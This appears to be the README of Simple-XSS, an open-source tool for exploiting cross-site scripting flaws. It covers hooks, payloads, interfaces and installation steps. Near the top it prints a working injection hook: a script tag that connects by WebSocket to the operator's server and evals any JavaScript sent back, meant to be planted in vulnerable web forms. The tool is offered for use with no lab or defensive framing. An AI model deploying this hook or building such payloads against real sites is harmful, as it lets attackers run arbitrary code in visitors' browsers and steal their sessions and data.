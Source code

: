# Simple-XSS

Simple-XSS is a multiplatform XSS vulnerability exploiter.

## Algorithm

## Usage

### Hook
> _Hooks folder: [hooks](hooks)_


**Hook** is an HTML code that can be embedded in a vulnerable XSS form. It looks like:

```html

<script>c = new WebSocket('{{environment.public_url}}'); c.onmessage = (e) => eval(e.data);</script>
```

**NOTE:** _As you can see here is a variable: {{environment.public_url}}. You can read more about
this below._

This is a [default](hooks/default) hook. When it's embedded in the vulnerable form, it downloads the JS
code ([payload](#payload)) via
WebSockets
protocol from the server and
executes it using [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Hook has the following structure:

```
|
+-- hook_folder
    |
    +-- hook.html
    |
    +-- package.toml
```

**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.

**package.toml** - metadata file, contains data about hook such as name, description, author and version.

### Payload

> _Payloads folder: [payloads](payloads)_

**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed
with [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Payload has the following structure:

```
|
+-- payload_folder
    |
    +-- payload.js
    |
    +-- package.toml
    |
    +-- init.py
```

**payload.js** - main file, contains arbitrary JS code.

**package.toml** - metadata file, contains data about payload such as name, description, author and version.

**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload
(payload.js) via WebSockets protocol.

_To create custom payload, follow these steps:_

- Create payload folder in [.\payloads](payloads) and go into

```shell
cd payloads
mkdir my_payload
cd my_payload
```

- Then create main file

```shell
echo "alert(1)" > payload.js
```

- Create package file (not required)

```shell
echo "name = 'My Payload'" > package.toml
```

- Create init python file (not required)

```shell
echo "print('Hello, World!')" > init.py
```

### Internal-Objects

**Internal objects** are transferred to hook & payload main files using [Jinja](https://jinja.palletsprojects.com/)
templating engine. It contains additional information that may be needed when loading a hook or payload.

#### Environment



#### Metadata

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

![GUI](docs/GUI.png)

### WEB

![WEB](docs/WEB.png)

### Command-Line

![CLI](docs/CLI.png)

## Installation

### Windows

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

### Linux

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
